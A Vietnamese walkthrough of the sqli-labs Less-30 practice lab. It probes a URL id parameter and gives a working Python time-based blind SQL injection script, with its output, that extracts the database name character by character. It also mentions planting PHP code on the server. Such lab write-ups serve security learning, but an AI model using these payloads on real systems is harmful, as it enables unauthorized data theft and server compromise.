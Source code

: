 # Less 30

Đề bài cho phép truyền ID vào từ URL

![](../images/sqli-labs/Less-30/01.png)

Truyền thử giá trị

![](../images/sqli-labs/Less-30/02.png)

Tìm cách để injection

![](../images/sqli-labs/Less-30/03.png)

Ta thấy ko hiên thị lỗi

Tiếp tục thử

![](../images/sqli-labs/Less-30/04.png)

![](../images/sqli-labs/Less-30/05.png)

Ta thấy có thể khai thác được thông qua error based

![](../images/sqli-labs/Less-30/06.png)

![](../images/sqli-labs/Less-30/07.png)

Dựa vào đây tôi có thể sử dụng script như những bài trước để show các thông tin trong DB

```
import requests
import time
import string

url_1 = 'http://192.168.84.233/sqli-labs/Less-30/?id=1" and if(substr(('
query = "select database()"
url_2 = "),{},1)='{}',sleep(5), false) --+"
url = url_1 + query + url_2
lists = string.printable

for n in range(1,16):
    for i in lists:
        url1 = url.format(n,i)
        time_1 = time.time()
        result = requests.get(url1)
        time_2 = time.time()
        if (time_2 - time_1 >= 5):
            print(i)
            break
```

Kết quả

```
python Sql-time-based.py 
s
e
c
u
r
i
t
y
+
+
```

Tương tự vậy ta có thể show các thông tin khác

Ta cũng có thể thêm đoạn code PHP lên server như những bài trước

![](../images/sqli-labs/Less-30/08.png)

![](../images/sqli-labs/Less-30/09.png)